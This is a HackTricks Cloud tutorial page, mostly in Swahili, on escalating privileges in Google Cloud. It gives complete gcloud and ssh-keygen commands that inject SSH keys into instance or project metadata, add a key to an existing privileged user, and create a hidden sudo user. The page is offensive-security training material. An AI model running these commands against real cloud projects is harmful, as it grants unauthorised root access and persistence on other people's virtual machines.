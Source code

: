 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Mabadiliko ya metadata kwenye mfano yanaweza kusababisha **hatari kubwa za usalama ikiwa mshambuliaji atapata ruhusa zinazohitajika**.

#### **Incorporation of SSH Keys into Custom Metadata**

Katika GCP, **mifumo ya Linux** mara nyingi inatekeleza skripti kutoka [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa ili **kuangalia mara kwa mara** kiunganishi cha metadata ya mfano kwa **sasisho la funguo za umma za SSH zilizoidhinishwa**.

Hivyo, ikiwa mshambuliaji anaweza kubadilisha metadata ya kawaida, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitawekwa na **kuunganishwa kwenye mfumo wa ndani**. Funguo hiyo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliye tayari au labda kuunda mtumiaji mpya mwenye ruhusa za `sudo`**, kulingana na muundo wa funguo. Na mshambuliaji ataweza kuathiri mwenyeji.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Tekeleza amri ya kuelezea mfano na metadata yake ili kupata funguo za SSH zilizopo. Sehemu inayohusiana katika matokeo itakuwa chini ya `metadata`, haswa funguo ya `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Angalia muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na koloni.
2. **Prepare a Text File for SSH Key Metadata:**
* Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH zinazohusiana kwenye faili ya maandiko iitwayo `meta.txt`. Hii ni muhimu ili kuhifadhi funguo zilizopo wakati wa kuongeza mpya.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Tumia amri ya `ssh-keygen` kuzalisha funguo mpya ya SSH, kuhakikisha kuwa uwanja wa maoni (`-C`) unalingana na jina la mtumiaji wa lengo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Ongeza funguo mpya ya umma kwenye `meta.txt`, ukifanana na muundo ulio katika metadata ya mfano.
4. **Update the Instance's SSH Key Metadata:**
*   Tumia metadata ya funguo za SSH iliyosasishwa kwenye mfano kwa kutumia amri ya `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Unganisha kwenye mfano kwa kutumia SSH na funguo mpya, ukipata shell katika muktadha wa mtumiaji wa lengo (`alice` katika mfano huu).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

Ikiwa hakuna mtumiaji wa kuvutia anayeonekana, inawezekana kuunda mpya ambayo itapewa ruhusa za `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine nyingi za Kijijini (VMs) katika mazingira ya wingu kwa **kutumia funguo za SSH katika kiwango cha mradi**. Njia hii inaruhusu ufikiaji wa SSH kwa mfano wowote ndani ya mradi ambao haujazuia wazi wazi funguo za SSH za mradi. Hapa kuna mwongozo wa muhtasari:

1. **Tumia Funguo za SSH katika Kiwango cha Mradi:**
*   Tumia amri `gcloud compute project-info add-metadata` kuongeza funguo za SSH kutoka `meta.txt` kwenye metadata ya mradi. Kitendo hiki kinahakikisha kwamba funguo za SSH zinatambuliwa katika VMs zote ndani ya mradi, isipokuwa VM ambayo ina chaguo la "Block project-wide SSH keys" limewezeshwa.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH kwenye Mifano kwa Kutumia Funguo za Kiwango cha Mradi:**
* Kwa funguo za SSH za kiwango cha mradi zikiwa mahali, unaweza SSH kwenye mfano wowote ndani ya mradi. Mifano ambayo haizuia funguo za kiwango cha mradi itakubali funguo za SSH, ikitoa ufikiaji.
* Njia moja ya moja ya SSH kwenye mfano ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii inatumia jina lako la mtumiaji wa sasa na funguo za SSH zilizowekwa katika kiwango cha mradi kujaribu ufikiaji.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
